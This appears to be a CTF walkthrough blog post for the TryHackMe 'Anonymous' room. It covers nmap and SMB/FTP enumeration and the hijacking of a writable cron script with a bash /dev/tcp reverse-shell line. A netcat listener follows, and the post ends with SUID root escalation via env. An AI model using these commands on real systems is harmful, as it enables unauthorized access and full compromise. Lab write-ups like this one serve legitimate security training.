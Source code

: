 ```yaml
---
title: "TryHackMe - Anonymous Walkthrough"
date: 2025-05-25 00:00:00 +0800
last_modified_at: 2025-05-25 00:00:00 +0800
categories: [Writeups, TryHackMe]
tags: [TryHackMe,Medium,CTF,SMB,FTP,Penetration Testing,Privilege Escalation,GTFOBins,Linux]
image:
  path: https://tryhackme-images.s3.amazonaws.com/room-icons/876a5185c429c9703e625cb48c39637b.png
  alt: Anonymous room logo
---
```


Room: [Anonymous](https://tryhackme.com/r/room/anonymous)<br>
Author: [Nameless0ne](https://tryhackme.com/r/p/Nameless0ne)<br>
Difficulty: <span style="color: #ef9c03"> **Medium** </span>

## Enumeration

### Port Scan
In this room, the IP for the machine is `10.10.166.189`. We will use `Nmap` to gather information of our target and identify open ports.

```bash
sudo nmap -sSV -T4 -A -Pn 10.10.166.189
```

Nmap scan shows `4` open ports. We also got information about what services and version those ports are and the OS and hostname of the machine. We now have the following information:

```bash
IP: 10.10.166.189
Hostname: anonymous
OS: Ubuntu

Ports:
21 - vsftpd 2.0.8 or later
22 - OpenSSH 7.6p1
139 - Samba smbd 3.X - 4.X
445 - Samba smbd 4.7.6-Ubuntu

Users
namelessone
```

![image.png](/assets/img/thm-anonymous/image.png)

### SMB Enumeration

Since we know that SMB is running on the machine, we can use Nmap to know what are the file shares available on the host.

Resource: <https://nmap.org/nsedoc/scripts/smb-enum-shares.html>

```bash
nmap --script smb-enum-shares.nse -p445 10.10.166.189
```

![image.png](/assets/img/thm-anonymous/image%201.png)

In the Nmap result, we see an interesting fileshare called `pics` . We can also see that `Anonymous` access is allowed for the share.

We can also use `SMBCLIENT` to enumerate file shares.

```bash
smbclient -L \\\\10.10.166.189\\
```

![image.png](/assets/img/thm-anonymous/image%202.png)

We can then access the file share as `Anonymous` using `SMBCLIENT`.

```bash
smbclient \\\\10.10.166.189\\pics -U anonymous --password anonymous
```

![image.png](/assets/img/thm-anonymous/image%203.png)

We have two interesting files, `corgo2.jpg` and `puppos.jpeg`. Unfortunately, there are no interesting information on those files using `exiftool`. Now let’s move on enumerating FTP.

### FTP Enumeration

We know from the Nmap scan that Anonymous access is enabled. Let’s try to access the FTP server.

```bash
ftp anonymous@10.10.166.189
```

Upon accessing the FTP server, we found three interesting files, `clean.sh`, `removed_file.log`, and `to_do.txt`. Also, notice that we have read/write/execute access to the `clean.sh` file.

![image.png](/assets/img/thm-anonymous/image%204.png)

Let’s download those files

```bash
get clean.sh
get removed_files.log
get to_do.txt
```

![image.png](/assets/img/thm-anonymous/image%205.png)

Now let’s check out the contents of those files.

![image.png](/assets/img/thm-anonymous/image%206.png)

![image.png](/assets/img/thm-anonymous/image%207.png)

![image.png](/assets/img/thm-anonymous/image%208.png)

After reviewing the contents of the script file, it seems it is used as a scheduled task to delete the contents of the `/tmp/` directory and if there are no files to delete it will store the message to a log file. 

Remember that we have a write access to the `clean.sh` file. We can take advantage of this to manipulate the file to allow us to run a reverse shell.

We can utilize the [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp for the reverse shell payload.) from Internal All The Things by swisskyrepo.

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

Create a netcat listener

```bash
nc -nvlp 8484
```

Modify the `clean.sh` file 

![image.png](/assets/img/thm-anonymous/image%209.png)

Upload `clean.sh` to the target and wait for it to run.  If successful, we should now have a shell.

![image.png](/assets/img/thm-anonymous/image%2010.png)

Nice! we got a shell and a user access.

### User Flag

Now let’s locate the user flag.

![image.png](/assets/img/thm-anonymous/image%2011.png)

<br>

## Privilege Escalation


### Enumeration

Upon doing some PrivEsc path enumeration, we found a way to escalate our access via `SUID`.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Searhcing through [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid), we found out that we can escalate via SUID using `/usr/bin/env`

![image.png](/assets/img/thm-anonymous/image%2012.png)

![image.png](/assets/img/thm-anonymous/image%2013.png)

### Escalation via SUID

We then escalate our privileges using the following command.

```bash
env /bin/sh -p
```

![image.png](/assets/img/thm-anonymous/image%2014.png)

Alright! we are now `root`.

### Root Flag

Now let’s get the root flag.

![image.png](/assets/img/thm-anonymous/image%2015.png)


Thanks for reading my waklthrough, I hope you enjoyed it! 😊

![ThankYouThanksGIF.gif](/assets/img/thm-anonymous/ThankYouThanksGIF.gif)